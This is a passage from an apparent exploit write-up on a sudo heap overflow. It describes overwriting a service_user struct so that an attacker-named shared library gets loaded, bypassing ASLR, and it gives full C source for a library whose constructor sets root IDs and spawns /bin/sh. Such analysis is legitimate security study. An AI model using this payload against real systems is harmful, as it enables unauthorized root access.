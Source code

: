 ![sudo](/assets/img/sudo/nss_lib.png)
_service_user structs on the heap_

If we were to overflow into one of those structures and write the name of a library we control,
when the program attempts to use it, our code will get executed instead.
A major advantage of this method is that is bypasses ASLR since we just provide the 
name of the .so file we want to load. 
Let's write a simple shared library that spawns a shell when loaded : 
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
    setuid(0); 
    seteuid(0); 
    setgid(0); 
    setegid(0);
    static char *arg[] = {"sh", NULL};
    execv("/bin/sh", arg);
}
```

Now let's inspect the heap layout at time of crash.
